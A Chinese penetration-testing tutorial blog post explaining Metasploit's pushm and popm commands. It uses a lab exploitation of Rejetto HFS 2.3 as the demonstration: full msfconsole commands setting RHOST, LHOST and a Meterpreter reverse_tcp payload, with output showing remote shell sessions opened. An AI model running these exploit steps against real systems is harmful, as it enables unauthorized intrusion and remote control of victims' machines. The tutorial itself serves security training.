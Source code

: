 ```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit之pushm和popm命令
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: Metasploit之pushm和popm命令
lock: need
---
```


# Metasploit之pushm和popm命令

使用pushm命令可以将当前模块放入模块栈中，而popm将位于栈顶的模块弹出。优势在于可以实现快捷操作，从而为测试者节省大量的时间和精力。

这里考虑一个场景：我们正在测试一台有多种漏洞的内部网络服务器，而且要对其中的所有系统都进行两种不同的渗透测试。为了能对每台服务器都进行这两种测试，我们就需要一个能在这两个渗透模块之间快速切换的机制。在这种情况下就可以使用pushm和popm命令。我们可以使用一个渗透模块对服务器的某个漏洞进行测试，然后将这个模块放入模块栈中，操作完成之后再载入另一个渗透模块。使用第二个模块完成任务之后，就可以使用popm命令将第一个模块(仍然保持之前的所有选项设置)从栈中弹出。

这里，我们在目标机上部署了HFS2.3服务，如下图：

![img](https://img-blog.csdnimg.cn/20190127204454193.png)

接着，我们利用HFS 2.3的漏洞拿到目标机的Meterpreter。

```
msfconsole
msf5 > use exploit/windows/http/rejetto_hfs_exec
msf5 exploit(windows/http/rejetto_hfs_exec) > set RHOST 192.168.175.130
RHOST => 192.168.175.130
msf5 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
RPORT => 8080
msf5 exploit(windows/http/rejetto_hfs_exec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/http/rejetto_hfs_exec) > set LHOST 192.168.175.128
LHOST => 192.168.175.128
msf5 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 192.168.175.128:4444 
[*] Using URL: http://0.0.0.0:8080/SM65nXQp
[*] Local IP: http://192.168.175.128:8080/SM65nXQp
[*] Server started.
[*] Sending a malicious request to /
[*] Sending stage (179779 bytes) to 192.168.175.130
[*] Payload request received: /SM65nXQp
[*] Meterpreter session 1 opened (192.168.175.128:4444 -> 192.168.175.130:1042) at 2019-01-25 15:41:58 +0800
[*] Sending stage (179779 bytes) to 192.168.175.130
[*] Meterpreter session 2 opened (192.168.175.128:4444 -> 192.168.175.130:1051) at 2019-01-25 15:41:58 +0800
[!] Tried to delete %TEMP%\GjPFpxreCevs.vbs, unknown result
[*] Server stopped.

meterpreter >
```

接着，我们通过background命令将当前会话放入后台，利用pushm命令将模块放入栈中，然后利用 exploit/multi/handler 模块渗透目标主机，如下：

```
meterpreter > background
[*] Backgrounding session 2...
msf5 exploit(windows/http/rejetto_hfs_exec) > pushm 
msf5 exploit(windows/http/rejetto_hfs_exec) > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > set LHOST 192.168.175.128
LHOST => 192.168.175.128
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.175.128:4444 
[*] Sending stage (179779 bytes) to 192.168.175.130
[*] Meterpreter session 3 opened (192.168.175.128:4444 -> 192.168.175.130:1054) at 2019-01-25 15:46:53 +0800

meterpreter > 
```

此时，我们就使用 pushm 命令将 windows/http/rejetto_hfs_exec 模块放到了栈中。并加载了 exploit/multi/handler 模块。当使用 exploit/multi/handler 模块完成操作之后，就可以使用popm命令从栈中再次加载 windows/http/rejetto_hfs_exec 模块，如下所示：

```
meterpreter > background
[*] Backgrounding session 3...
msf5 exploit(multi/handler) > popm
msf5 exploit(windows/http/rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.175.130  yes       The target address range or CIDR identifier
   RPORT      8080             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.175.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 192.168.175.128:4444 
[*] Using URL: http://0.0.0.0:8080/8rkX9sv1CkhYsB
[*] Local IP: http://192.168.175.128:8080/8rkX9sv1CkhYsB
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /8rkX9sv1CkhYsB
[*] Sending stage (179779 bytes) to 192.168.175.130
[*] Meterpreter session 4 opened (192.168.175.128:4444 -> 192.168.175.130:1067) at 2019-01-25 16:23:11 +0800

[*] Server stopped.
[!] This exploit may require manual cleanup of '%TEMP%\gWZaxa.vbs' on the target

meterpreter > 
```

从模块栈中弹出的windows/http/rejetto_hfs_exec跟之前的设置一样，所以无须再设置这个模块的选项了。

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)